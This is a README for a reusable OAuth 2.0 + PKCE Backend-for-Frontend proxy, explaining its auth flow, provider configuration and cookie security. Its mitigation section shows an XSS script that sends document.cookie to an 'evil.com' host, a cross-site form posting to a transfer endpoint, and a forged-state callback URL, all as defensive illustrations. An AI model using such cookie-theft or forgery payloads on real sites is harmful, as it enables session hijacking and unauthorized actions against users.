


# Oauth2 Backend for Frontend Proxy

Reusable Backend-for-Frontend (BFF) proxy with OAuth 2.0 + PKCE authentication. Tokens are stored in HTTP-only cookies, and authenticated requests are proxied to your backend with user context injected as headers.

## Why This Repository Exists

While integrating auth in applications, I struggled to find a complete, production-ready example that:

- Implements OAuth 2.0 + PKCE correctly
- Uses HTTP-only cookies instead of localStorage
- Explains the security implications of each decision
- Works as a reusable proxy for any backend

Most examples I found were either incomplete, used insecure token storage, or lacked proper documentation. This repository aims to fill that gap.

### Common mistakes I've seen (and made)

- Storing the client secret in frontend code (it's called a secret for a reason)
- Storing tokens in localStorage or sessionStorage (vulnerable to XSS)
- Confusion about which token to send to the backend, ID token vs access token
- Complex React state management for token refresh timing
- Missing OAuth state parameter
- Missing PKCE code challenge/verifier
- Not revoking tokens on the auth provider during logout
- Tons of configuration in the frontend project
- Installing 4-5 libraries and stitching them together to make OAuth work on the frontend

**Disclaimer:** This is not a claim that this implementation covers every possible security concern or best practice. I may have missed things. If you know of better implementations or find issues with this approach, contributions and constructive criticism are welcome. Please open an issue or PR explaining what could be improved and why.

### When evaluating any OAuth implementation (including this one), ask if

- Where are tokens stored? Are they vulnerable to XSS attacks?
- Is the client secret exposed?
- Does it use deprecated OAuth flows?
- Is PKCE implemented?
- Is the state parameter used and verified?
- Is the code_challenge parameter used?
- Does it support local development? Not just production where frontend/backend share the same domain
- Does it properly support the listed providers?
- Can you extract custom claims?
- Does it revoke tokens on logout?

## What This BFF Does and Does NOT

**This BFF handles:**

- OAuth 2.0 + PKCE authentication flow with
- Secure token storage in HTTP-only cookies
- Token validation and automatic refresh
- Proxying requests to your backend with user headers

**This BFF does NOT handle:**

- Authorization logic (which routes are public/private)
- Business logic decisions about user permissions
- Role-based access control

Your backend is responsible for authorization, but this is simple work since you don't need to manage the OAuth flow, token validation, refresh, or security vulnerabilities. Just check the presence and value of headers (`X-User-Sub`, `X-User-Email`, etc.) passed by the BFF proxy.

## Table of Contents

- [Architecture](#architecture)
- [Flow](#authentication-flow)
- [Setup](#setup)
- [Cookies Security](#cookies-security)
- [Vulnerabilities Mitigations](#vulnerabilities-mitigations)
- [Useful Links](#useful-links)
- [TODOs](#todos)

## Architecture



1. Frontend calls BFF for all requests
2. BFF handles OAuth flow (`/auth/*` routes)
3. BFF proxies business logic requests (`/api/*`) to backend
4. BFF injects user headers (`X-User-Sub`, `X-User-Email`, and configurable custom claims) before proxying
5. Backend reads user info from headers using simple checks like decorators (no token validation needed)

## Authentication Flow

PKCE prevents authorization code interception attacks by introducing a cryptographic challenge:



1. **State**: Random string generated by BFF stored in HTTP-only cookie and sent to Identity Provider
2. **Code Verifier**: Random string generated by BFF stored in HTTP-only cookie
3. **Code Challenge**: SHA-256 hash of code verifier sent to Identity Provider in authorization URL
4. **Login**: BFF redirects to the Identity Provider
   - `state` and `code_challenge` sent to the Identity Provider in authorization URL
   - The Identity Provider stores both values
5. **Login Callback**: BFF validates state and exchanges code for tokens
   - Validates: URL `state` parameter === `oauth_state` cookie (CSRF protection)
   - Sends `code_verifier` to Identity Provider during token exchange
   - Identity Provider validates: SHA256(code_verifier) === stored code_challenge
   - If both validations pass: Issue tokens
   - If either fails: Reject request

## Setup

### Configure Environment

#### General Configuration

| Variable                          | Description                        | Example                                              | Required |
| --------------------------------- | ---------------------------------- | ---------------------------------------------------- | -------- |
| `REDIRECT_URI`                    | Login callback URL                 | `http://localhost:3000/auth/callback`                | Yes      |
| `LOGOUT_REDIRECT_URI`             | Logout redirect URL                | `http://localhost:3000/auth/signout-callback`        | Yes      |
| `FRONTEND_REDIRECT_URL`           | Frontend redirect URL              | `http://localhost:8080`                              | Yes      |
| `BACKEND_URL`                     | Backend service URL                | `http://localhost:4000`                              | Yes      |
| `CUSTOM_CLAIMS`                   | JWT claims to forward              | `custom:groups,cognito:groups`                       | No       |
| `JWKS_CACHE_MAX_AGE_MS`           | JWKS cache duration (ms)           | `600000`                                             | Yes      |
| `JWT_ALGORITHM`                   | JWT signature algorithm            | `RS256`, `RS384`, `RS512`, `ES256`, `ES384`, `ES512` | Yes      |
| `LOG_LEVEL`                       | Logging level                      | `trace`, `debug`, `info`, `warn`, `error`, `fatal`   | Yes      |
| `TOKEN_REFRESH_THRESHOLD_SECONDS` | Token refresh threshold in seconds | `300`                                                | Yes      |
| `AUTH_PROVIDER`                   | Authentication provider            | `cognito`, `entra`, `keycloak`                       | Yes      |

#### AWS Cognito Provider Configuration

Required only when `AUTH_PROVIDER=cognito`:

| Variable                          | Description           | Example                                                                       | Required |
| --------------------------------- | --------------------- | ----------------------------------------------------------------------------- | -------- |
| `COGNITO_AUTH_DOMAIN_PREFIX`      | Cognito domain prefix | `my-app`                                                                      | Yes      |
| `COGNITO_USER_POOL_CLIENT_ID`     | App client ID         | `abc123...`                                                                   | Yes      |
| `COGNITO_USER_POOL_CLIENT_SECRET` | App client secret     | `xyz789...`                                                                   | Yes      |
| `COGNITO_AWS_REGION`              | AWS region            | `us-east-1`                                                                   | Yes      |
| `COGNITO_USER_POOL_ID`            | User pool ID          | `us-east-1_ABC123`                                                            | Yes      |
| `COGNITO_AWS_ENDPOINT`            | AWS Cognito endpoint  | `https://cognito-idp.us-east-1.amazonaws.com` or `http://bff-localstack:4566` | Yes      |
| `COGNITO_OAUTH_SCOPES`            | OAuth 2.0 scopes      | `openid email profile`                                                        | Yes      |

#### Microsoft Entra ID Provider Configuration

Required only when `AUTH_PROVIDER=entra`:

| Variable              | Description      | Example                                   | Required |
| --------------------- | ---------------- | ----------------------------------------- | -------- |
| `ENTRA_TENANT_ID`     | Tenant ID        | `common`, `organizations`, or tenant GUID | Yes      |
| `ENTRA_CLIENT_ID`     | Application ID   | `abc123...`                               | Yes      |
| `ENTRA_CLIENT_SECRET` | Client secret    | `xyz789...`                               | Yes      |
| `ENTRA_OAUTH_SCOPES`  | OAuth 2.0 scopes | `openid email profile`                    | Yes      |

#### Keycloak Provider Configuration

Required only when `AUTH_PROVIDER=keycloak`:

| Variable                     | Description                                                                      | Example                        | Required |
| ---------------------------- | -------------------------------------------------------------------------------- | ------------------------------ | -------- |
| `KEYCLOAK_BASE_URL`          | Keycloak base URL                                                                | `https://keycloak.example.com` | Yes      |
| `KEYCLOAK_INTERNAL_BASE_URL` | Internal Keycloak URL, for Docker/K8s where BFF needs different URL than browser | `http://keycloak:8080`         | No       |
| `KEYCLOAK_REALM`             | Realm name                                                                       | `my-realm`                     | Yes      |
| `KEYCLOAK_CLIENT_ID`         | Client ID                                                                        | `my-app`                       | Yes      |
| `KEYCLOAK_CLIENT_SECRET`     | Client secret                                                                    | `abc123...`                    | Yes      |
| `KEYCLOAK_OAUTH_SCOPES`      | OAuth 2.0 scopes                                                                 | `openid email profile`         | Yes      |

### Using with Your Backend

BFF works with any backend technology. Your backend receives user information via headers.

BFF uses **optional** authentication for `/api/*` routes. If user is authenticated, user headers are injected and forwarded to backend.

**Standard headers (when authenticated):**

- `X-User-Sub` - User's unique identifier
- `X-User-Email` - User's email address

**Custom headers:**

BFF can extract and forward other JWT custom claims as HTTP headers.

```env
CUSTOM_CLAIMS=custom:groups,cognito:groups,cognito:username
```

- `custom:groups` will be forwared in the `X-User-custom-groups` header

### Post-Login Redirect

The BFF supports redirecting users back to their original page after login using the `returnTo` query parameter:

```javascript
window.location.href = `/auth/login?returnTo=${encodeURIComponent(currentPath)}`;
```

## Cookies Security

**Why not localStorage or sessionStorage?**

| Storage           | Accessible by JS | XSS Vulnerable | Sent Automatically |
| ----------------- | ---------------- | -------------- | ------------------ |
| localStorage      | Yes              | Vulnerable     | No                 |
| sessionStorage    | Yes              | Vulnerable     | No                 |
| HTTP-only cookies | No               | Protected      | Yes                |

If an attacker injects malicious JavaScript (XSS), they can steal tokens from localStorage/sessionStorage but cannot access HTTP-only cookies.

All cookies use `httpOnly: true`, making them inaccessible to JavaScript.
All cookies use `secure: true`, only sent over HTTPS.

Cookies use different `sameSite` values based on their purpose:

| Value    | Cross-site requests                | Use case                       |
| -------- | ---------------------------------- | ------------------------------ |
| `strict` | Never sent                         | Auth tokens (maximum security) |
| `lax`    | Sent on top-level navigation (GET) | OAuth state (allows callback)  |
| `none`   | Always sent                        | Third-party integrations       |

### Auth Cookies (after successful login)

- id_token
- access_token
- refresh_token

Auth tokens use `strict`

### OAuth State Cookies (during login flow)

- oauth_state
- oauth_nonce
- code_verifier
- return_to

Theese use `lax` to allow Identity Provider to redirect back to `/auth/callback` with cookies intact.

## Vulnerabilities Mitigations

### XSS (Cross-Site Scripting)

**Attack:** Attacker injects malicious JavaScript to steal tokens.

**Prevention:** HTTP-only cookies cannot be accessed by JavaScript.

```javascript
// Attacker's injected script
<script>fetch('https://evil.com/steal?token=' + document.cookie);</script>

// Result: Cannot access HTTP-only cookies
```

### CSRF (Cross-Site Request Forgery)

**Attack:** Attacker tricks user into making unwanted requests.

**Prevention:** `SameSite=strict` cookies are not sent on cross-site requests.

```html
<!-- Attacker's site -->
<form action="http://localhost:3000/api/transfer" method="POST">
  <input name="amount" value="1000" />
</form>

<!-- Result: Cookies not sent, request fails -->
```

**Why no CSRF tokens (X-CSRF-Token headers)?**

Traditional CSRF tokens are not necessary because:

- Auth tokens use `sameSite: "strict"` - cookies never sent cross-site
- Any request from external site (link, form, fetch) won't include auth cookies
- OAuth flow uses `state` parameter validation (with `sameSite: "lax"` for callback)

CSRF tokens would be needed if using `sameSite: "none"`.

### Token Theft via Man-in-the-Middle

**Attack:** Attacker intercepts network traffic to steal tokens.

**Prevention:** `secure: true` ensures cookies only sent over HTTPS.

```txt
Attacker intercepts HTTP traffic -> Sees encrypted HTTPS -> Cannot read cookies
```

### JWT Signature Verification

Every request validates the JWT signature using the Identity Provider's public keys (JWKS).

### Authorization Code Interception

**Attack:** Attacker intercepts OAuth authorization code.

**Prevention:** PKCE requires `code_verifier` that only BFF has.

```txt
Attacker intercepts: code=ABC123
Attacker tries: POST /oauth2/token with code=ABC123
Identity Provider requires: code_verifier (attacker doesn't have it)
Result: Token exchange fails
```

<!--
### State Parameter

The `state` parameter prevents CSRF attacks during OAuth flow:

1. BFF generates random `state` value (e.g., `"STATE_VAL_123"`)
2. Stores in HTTP-only cookie with `SameSite=lax`
3. Sends same `state` to Identity Provider in authorization URL
4. Identity Provider returns same `state` in callback URL
5. BFF validates `state` from URL matches `state` from cookie

**Real example from logs:**

```txt
Step 1: BFF sets cookie: oauth_state=STATE_VAL_123
        BFF redirects to: /login?state=STATE_VAL_123

Step 2: Identity Provider redirects: /?code=ABC&state=STATE_VAL_123
        Browser sends cookie: oauth_state=STATE_VAL_123
        BFF validates: URL state === Cookie state
```

**The vulnerability without state parameter:**

Without state verification, an attacker can exploit the OAuth flow:

1. Attacker initiates OAuth login on their own browser, gets authorization code
2. Attacker tricks you into visiting: `http://localhost:3000/?code=ATTACKERS_CODE`
3. Your browser exchanges the attacker's code for tokens
4. You're now logged in as the attacker - anything you do is linked to their account

**How state prevents this attack:**

1. Your server generates a random state value before redirecting to Identity Provider
2. Server stores this state in HTTP-only cookie
3. Identity Provider includes the same state in the callback URL
4. Server verifies the returned state matches what it stored
5. If they don't match, reject the request

This ensures the callback is completing a login flow that YOUR server initiated, not one an attacker started.

**Malicious flow prevented:**

```txt
Attacker creates malicious link: /auth/callback?code=STOLEN_CODE&state=FAKE
Victim clicks link
BFF checks: URL state ("FAKE") !== Cookie state ("36a6dc18...")
Attack blocked (403 Forbidden)
```

**Why this works:**

- Attacker can create any URL with any `state` value
- But attacker cannot set cookies in victim's browser (cross-origin restriction)
- Victim's browser has legitimate `state` cookie from Step 1
- BFF rejects request if URL state doesn't match cookie state


### OAuth State Manipulation

**Attack:** Attacker creates malicious callback with fake state.

**Prevention:** BFF validates state parameter matches cookie.

```txt
Attacker: /auth/callback?code=STOLEN&state=FAKE
BFF checks: state cookie = REAL_STATE
Result: State mismatch, request rejected
```
-->

## TODOs

- [ ] Optimize logging for production: Move `pino-pretty` back to devDependencies and use conditional JSON logging (check `NODE_ENV`, remove pino-pretty transport in production, update Dockerfile to set `ENV NODE_ENV=production`)
- [ ] Check the cognito endpoints and their specification
- [ ] Use code also in the logout endpoints
- [ ] Add explanation for state
- [ ] Add explanation for nonce
- [ ] Add explanation for sub mismatch
- [ ] Add other explanation on vulnerabilities prevented

## Useful Links

- [BFF](https://auth0.com/blog/the-backend-for-frontend-pattern-bff/)
- [AWS Endpoints](https://docs.aws.amazon.com/cognito/latest/developerguide/revocation-endpoint.html)
- [MSAL ISSUE 62](https://github.com/AzureAD/microsoft-authentication-library-for-js/issues/602)
- [JWKS and Token Validation](https://docs.aws.amazon.com/cognito/latest/developerguide/amazon-cognito-user-pools-using-tokens-verifying-a-jwt.html)
- [OpenID Connect on Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/v2-protocols-oidc)
- [OAuth 2.0 authorization code flow](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-auth-code-flow)
- [OAuth 2.0 RFC 6749](https://datatracker.ietf.org/doc/html/rfc6749) - Official OAuth 2.0 specification
- [PKCE RFC 7636](https://datatracker.ietf.org/doc/html/rfc7636) - Proof Key for Code Exchange specification
- [OAuth 2.0 Security Best Practices](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics) - IETF security recommendations
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Auth0- Authorization Code Flow with Proof Key for Code Exchange (PKCE)](https://auth0.com/docs/get-started/authentication-and-authorization-flow/authorization-code-flow-with-pkce)
- [Auth0 - Authorization Code Flow](https://auth0.com/docs/get-started/authentication-and-authorization-flow/authorization-code-flow)
- [OAuth2 & token lifecycle](https://www.html.it/pag/542483/sicurezza-e-best-practices-in-oauth-2-0-e-jwt/)
- [JWT mistakes & breaches](https://em360tech.com/tech-articles/jwt-just-wait-til-it-breaks-common-token-mistakes-and-how-avoid-them)
- [JWT critical flaws](https://medium.com/@cyb3rzee/my-week-2-lab-deep-dive-into-jwt-security-5-critical-flaws-you-should-never-ignore-cf1c2ddc34e2)
- [Real world JWT vulnerabilities](https://www.redsecuretech.co.uk/blog/post/breaking-and-fixing-jwts-real-world-vulnerabilities-and-fixes/491)
- [JWT: common token mistakes](https://em360tech.com/tech-articles/jwt-just-wait-til-it-breaks-common-token-mistakes-and-how-avoid-them)

## License

MIT
